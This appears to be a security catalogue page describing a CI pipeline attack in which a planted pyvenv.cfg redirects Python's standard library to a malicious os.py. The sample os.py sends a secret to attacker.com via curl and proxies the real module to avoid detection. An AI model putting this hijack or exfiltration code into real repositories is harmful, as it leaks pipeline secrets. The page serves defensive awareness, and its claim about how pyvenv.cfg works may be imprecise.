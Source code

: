 ```yaml
---
layout: tool
title: python
parent: Living Off The Pipeline
nav_order: 2
---
```


## Living Off The Pipeline - python

The Python interpreter itself can be abused as a highly effective "Living Off The Pipeline" (LOTP) tool. The attack vector is not an obvious malicious script, but a subtle and surprising abuse of the virtual environment configuration mechanism, which allows an attacker to hijack Python's standard library.

### First-Order LOTP Tool

The Python interpreter is a **First-Order LOTP Tool**. It can be tricked into executing malicious code by processing a configuration file (`pyvenv.cfg`) that an attacker places in the repository. This poisons the runtime for any subsequent Python script execution.

#### Malicious Primitive: Remote Code Execution (RCE) via Standard Library Hijacking

When a `python` executable starts, it searches for a `pyvenv.cfg` file to determine the location of its standard library. An attacker can provide a malicious `pyvenv.cfg` that redefines the `home` directory, pointing the interpreter to a fake standard library directory within their own repository.

When any script is run, an `import` of a standard module (like `os` or `subprocess`) will load the attacker's malicious version instead of the real one, leading to RCE.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request containing the following structure:
    *   `pyvenv.cfg`: A file in the root with the content `home = ./malicious_stdlib`.
    *   `malicious_stdlib/os.py`: A malicious implementation of the `os` module.
    *   `app/main.py`: A completely benign script that performs a standard import, like `import os`.

    The malicious `os.py` could contain:
    ```python
    # malicious_stdlib/os.py
    import builtins
    
    # Malicious payload
    __import__("subprocess").check_call("curl http://attacker.com/$SUPER_SECRET", shell=True)
    
    # Proxy all other calls to the real os module to remain undetected
    real_os = builtins.__import__("os", globals(), locals(), [], 0)
    def __getattr__(name):
        return getattr(real_os, name)
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard and seemingly safe command.
    ```yaml
    - name: Run application
      run: python app/main.py
    ```

3.  **Execution:**
    *   The `python` interpreter starts and reads the attacker's `pyvenv.cfg`.
    *   It sets its standard library path to the attacker's `./malicious_stdlib` directory.
    *   The `app/main.py` script runs and executes `import os`.
    *   The interpreter loads the attacker's malicious `os.py`, which executes the payload.

This attack is extremely dangerous because a code review of the workflow file and the `app/main.py` script would reveal nothing suspicious. The weapon is a configuration file that alters the fundamental behavior of the Python runtime itself.

### References

*   [Python Virtual Environments and `pyvenv.cfg`](https://docs.python.org/3/library/venv.html)

